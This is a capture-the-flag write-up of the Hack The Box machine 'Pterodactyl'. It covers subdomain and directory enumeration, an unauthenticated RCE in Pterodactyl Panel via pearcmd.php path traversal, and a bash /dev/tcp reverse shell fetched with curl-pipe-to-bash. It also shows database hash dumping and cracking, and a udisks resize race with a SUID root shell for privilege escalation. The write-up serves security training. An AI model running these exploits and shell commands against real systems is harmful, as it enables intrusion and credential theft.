








## 🛠 Overview

<table style="width:100%; table-layout:fixed;">
  <thead>
    <tr>
      <th style="width:40%; text-align:left;">Category</th>
      <th style="width:60%; text-align:left;">Info</th>
    </tr>
  </thead>
  <tbody>
    <tr><td>Machine Name</td><td>Pterodactyl</td></tr>
    <tr><td>Difficulty</td><td>Medium</td></tr>
    <tr><td>Release Date</td><td>7 Feb 2026</td></tr>
    <tr><td>Author</td><td>Headmonitor & TheCyberGeek</td></tr>
    <tr><td>OS</td><td>Linux</td></tr>
    <tr><td>Pwned Date</td><td>10 Feb 2026</td></tr>
  </tbody>
</table>

---

## 1. Reconnaissance
### Nmap Scan:

```bash
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 9.6 (protocol 2.0)
| ssh-hostkey: 
|   256 a3:74:1e:a3:ad:02:14:01:00:e6:ab:b4:18:84:16:e0 (ECDSA)
|_  256 65:c8:33:17:7a:d6:52:3d:63:c3:e4:a9:60:64:2d:cc (ED25519)
80/tcp   open   http       nginx 1.21.5
|_http-server-header: nginx/1.21.5
|_http-title: Did not follow redirect to http://pterodactyl.htb/
443/tcp  closed https
8080/tcp closed http-proxy
```
Scanning for the subdomains we get ``panel.pterodactyl.htb``
```bash
$ ffuf -u http://pterodactyl.htb -H "Host:FUZZ.pterodactyl.htb"  -w /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt -t 200 -fs 145

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://pterodactyl.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt
 :: Header           : Host: FUZZ.pterodactyl.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 145
________________________________________________

panel                   [Status: 200, Size: 1897, Words: 490, Lines: 36, Duration: 415ms]
:: Progress: [100000/100000] :: Job [1/1] :: 675 req/sec :: Duration: [0:01:55] :: Errors: 0 ::
```

Add the IP to ``/etc/hosts`` as well as the subdomain

```bash
 echo '<IP> pterodactyl.htb panel.pterodactyl.htb' | sudo tee -a /etc/hosts
```
The landing page on the website features ``changelog.txt``


The changelog discloses the underlying product and its exact version: Pterodactyl Panel v1.11.10 .


Using ``dirsearch`` to scan for the endpoints

```bash
# Dirsearch started Mon Feb  9 06:54:49 2026 as: /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u http://pterodactyl.htb/

403   555B   http://pterodactyl.htb/.htaccess.bak1
403   555B   http://pterodactyl.htb/.htaccess.save
403   555B   http://pterodactyl.htb/.htaccess.sample
403   555B   http://pterodactyl.htb/.htaccess.orig
403   555B   http://pterodactyl.htb/.htaccess_extra
403   555B   http://pterodactyl.htb/.htaccess_orig
403   555B   http://pterodactyl.htb/.htaccess_sc
403   555B   http://pterodactyl.htb/.ht_wsr.txt
403   555B   http://pterodactyl.htb/.htaccessOLD2
403   555B   http://pterodactyl.htb/.htm
403   555B   http://pterodactyl.htb/.htaccessOLD
403   555B   http://pterodactyl.htb/.html
403   555B   http://pterodactyl.htb/.htaccessBAK
403   555B   http://pterodactyl.htb/.httr-oauth
403   555B   http://pterodactyl.htb/.htpasswds
403   555B   http://pterodactyl.htb/.htpasswd_test
200   920B   http://pterodactyl.htb/changelog.txt
200    72KB  http://pterodactyl.htb/phpinfo.php
403   555B   http://pterodactyl.htb/Public/
```
There is ``phpinfo.php`` exposed which contains full configurations for the site.


Looking at ``panel.pterodactyl.htb`` we have a login page:


# 2. Foothold
Searching for CVEs for Pterodactyl Panel v1.11.10 we came across ``CVE-2025-49132``, unauthenticated RCE. Using the ``/locales/locale.json`` with the ``locale`` and ``namespace`` query parameters, a malicious actor is able to execute arbitrary code, without being authenticated. To execute our payload we have to include ``pearcmd.php``

Exploring the CVEs we came across this in [Exploit-DB](https://www.exploit-db.com/exploits/52341) 

```bash
python3 exploit.py http://panel.pterodactyl.htb/
http://panel.pterodactyl.htb/ => pterodactyl:PteraPanel@127.0.0.1:3306/panel
```
This confirms panel is vulnerable and we get ``MySQL`` credentials as well ``pterodactyl:PteraPanel``. Now exploring for RCE came across this [0xtensho/CVE-2025-4912-poc](https://github.com/0xtensho/CVE-2025-49132-poc) but edit the path for the ``pearcmd.php`` 

```
# Old: locale=../../../../../usr/local/lib/php&namespace=pearcmd
# New: locale=../../../../../usr/share/php/PEAR&namespace=pearcmd
```

```bash
$ cat shell.sh
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.14.54/1337 0>&1

$ python3 -m http.server 80

$ python3 poc.py panel.pterodactyl.htb "curl 10.10.14.54/shell.sh|bash"

```

We get a shell:

```bash
$ rlwrap nc -lvnp 4444                                  
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.129.230.200] 48726
bash: cannot set terminal process group (1208): Inappropriate ioctl for device
bash: no job control in this shell
wwwrun@pterodactyl:/var/www/pterodactyl/public> 
```

# 3. Lateral Movement

We have the credentials for the sql server, we use it:

```bash
wwwrun@pterodactyl:/var/www/pterodactyl/public> mariadb -u pterodactyl -h 127.0.0.1 -pPteraPanel -e "SHOW DATABASES;"
<ctyl -h 127.0.0.1 -pPteraPanel -e "SHOW DATABASES;"
Database
information_schema
panel
test
```
Lets look at tables and grab some credentials:
```bash
wwwrun@pterodactyl:/var/www/pterodactyl/public> mariadb -u pterodactyl -h 127.0.0.1 -pPteraPanel -e "USE panel; select * from users;; "
<REDACTED>
phileasfogg3@pterodactyl.htb  $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi     6XGbHcVLLV9fyVwNkqoMHDqTQ2kQlnSvKimHtUDEFvo4SjurzlqoroUgXdn8    
<redacted>
```

Grab the hash for ``phileasfogg3@pterodactyl.htb`` and use ``john`` to crack it:

```bash
john hash --show                                     
?:!QAZ2wsx

1 password hash cracked, 0 left
```
The recovered password ``!QAZ2wsx`` is reused for SSH access as ``phileasfogg3`` and get the user flag.


# 4. Privilege escalation

Exploring around the shell came across ``/var/mail/phileasfogg3``:

```bash
From headmonitor@pterodactyl Fri Nov 07 09:15:00 2025
Delivered-To: phileasfogg3@pterodactyl
Received: by pterodactyl (Postfix, from userid 0)
id 1234567890; Fri, 7 Nov 2025 09:15:00 +0100 (CET)
From: headmonitor headmonitor@pterodactyl
To: All Users all@pterodactyl
Subject: SECURITY NOTICE — Unusual udisksd activity (stay alert)
Message-ID: 202511070915.headmonitor@pterodactyl
Date: Fri, 07 Nov 2025 09:15:00 +0100
MIME-Version: 1.0
Content-Type: text/plain; charset="utf-8"
Content-Transfer-Encoding: 7bit

Attention all users,

Unusual activity has been observed from the udisks daemon (udisksd). No confirmed compromise at this time, but increased vigilance is required.

Do not connect untrusted external media. Review your sessions for suspicious activity. Administrators should review udisks and system logs and apply pending updates.

Report any signs of compromise immediately to headmonitor@pterodactyl.htb

— HeadMonitor
System Administrator
```

This mail points to ```udisks``. Exploring the vulnerabilities for ``udisks`` found:
[CVE-2025-6018 and CVE-2025-6019 chain](https://github.com/iamgithubber/CVE-2025-6018-19-exploit)

## Exploitation Steps
Step 1 — Build the SUID Root Shell (on Attacker Machine)
```c
// rootshell.c
#include <unistd.h>

int main() {
    setuid(0);   // Escalate UID to root
    setgid(0);   // Escalate GID to root
    execl("/bin/bash", "sh", "-p", NULL);  // -p preserves effective UID
    return 0;
}
```
Compile and set the SUID bit:

```bash
gcc rootshell.c -o rootshell -static
chmod u+s rootshell   #set suid bit
```
>Why static? Avoids dependency on the victim's shared libraries/libc version.

Step 2 — Create the XFS Image with Embedded Payload

```bash
$ sudo dd if=/dev/zero of=exploit.img bs=1M count=300
300+0 records in
300+0 records out
314572800 bytes (315 MB, 300 MiB) copied, 1.15761 s, 272 MB/s


# Format as XFS (the resize behavior is XFS-specific)
$ sudo mkfs.xfs -f exploit.img                       
meta-data=exploit.img            isize=512    agcount=4, agsize=19200 blks
         =                       sectsz=512   attr=2, projid32bit=1
         =                       crc=1        finobt=1, sparse=1, rmapbt=1
         =                       reflink=1    bigtime=1 inobtcount=1 nrext64=1
         =                       exchange=0   metadir=0
data     =                       bsize=4096   blocks=76800, imaxpct=25
         =                       sunit=0      swidth=0 blks
naming   =version 2              bsize=4096   ascii-ci=0, ftype=1, parent=0
log      =internal log           bsize=4096   blocks=16384, version=2
         =                       sectsz=512   sunit=0 blks, lazy-count=1
realtime =none                   extsz=4096   blocks=0, rtextents=0
         =                       rgcount=0    rgsize=0 extents
         =                       zoned=0      start=0 reserved=0


# Mount, embed payload as root (preserving SUID + root ownership)
mkdir -p /tmp/mnt
sudo mount -o loop exploit.img /tmp/mnt
sudo cp rootshell /tmp/mnt/
sudo chown root:root /tmp/mnt/rootshell
sudo chmod u+s /tmp/mnt/rootshell

# Verify
ls -la /tmp/mnt/rootshell
# -rwsr-xr-x 1 root root ... /tmp/mnt/rootshell

sudo umount /tmp/mnt
rmdir /tmp/mnt
```
Key point: Inside the image, rootshell is owned by root with the SUID bit (---s--x--x). Under normal UDisks2 mounting, nosuid would neutralize this. The race condition is what defeats that protection.

Step 3 — Transfer to Victim
On the attacker machine:

```bash

python3 -m http.server 8080
```
On the victim machine:

```bash

wget http://<attacker_ip>:8080/exploit.img
```
on victim machine first:
```bash
cat > ~/.pam_environment << EOF
XDG_SEAT OVERRIDE=seat0
XDG_SESSION_ID OVERRIDE=session_id from loginctl
XDG_VTNR OVERRIDE=1
EOF

export XDG_SEAT=seat0
export XDG_VTNR=2
```
we need logout and log back in

Step 4 — Set Up the Loop Device and Mount
```bash

# Attach the image to a loop device
udisksctl loop-setup -f exploit.img 

# Mount the loop device via UDisks2
udisksctl mount -b /dev/loop0 
```

At this point, verify the nosuid restriction is in place:

We can see the SUID bit here but actually the mount has nosuid flag set.

```bash
$ mount | grep loop0
/dev/loop0 on /run/media/phileasfogg3/6887cc88-7023-446e-89b1-42eece8a931d type xfs (rw,nosuid,nodev,relatime,attr2,inode64,logbufs=8,logbsize=32k,noquota,uhelper=udisks2)
```
The nosuid flag means directly executing /media/<user>/.../rootshell will not escalate privileges. This is expected.

Step 5 — Trigger the Race Condition
The exploit leverages the Filesystem.Resize D-Bus method. During resize, UDisks2 internally creates a transient mount at /tmp/blockdev.<random>/ that may briefly exist without nosuid.

Terminal 1 — Resize Loop (trigger the race):

```bash

gdbus call --system --dest org.freedesktop.UDisks2 \
        --object-path "/org/freedesktop/UDisks2/block_devices/loop0" \
        --method org.freedesktop.UDisks2.Filesystem.Resize \
        0 "{}"
```
Parameter 0: Tells XFS to resize to the maximum available size.

Terminal 2 — Race to execute the SUID binary:

```bash
while true; do /tmp/blockdev*/rootshell -p; done
```


Another method we can do without manually unmounting loop device is to run the ``gdbus`` command on a loop as well

Terminal 1:

```bash
while true; do gdbus call --system --dest org.freedesktop.UDisks2 --object-path "/org/freedesktop/UDisks2/block_devices/loop0" --method org.freedesktop.UDisks2.Filesystem.Resize 0 "{}"; done
```
Terminal 2:

```bash
while true; do /tmp/blockdev*/rootshell -p; done
```




**Write-up prepared by:** *the008killer*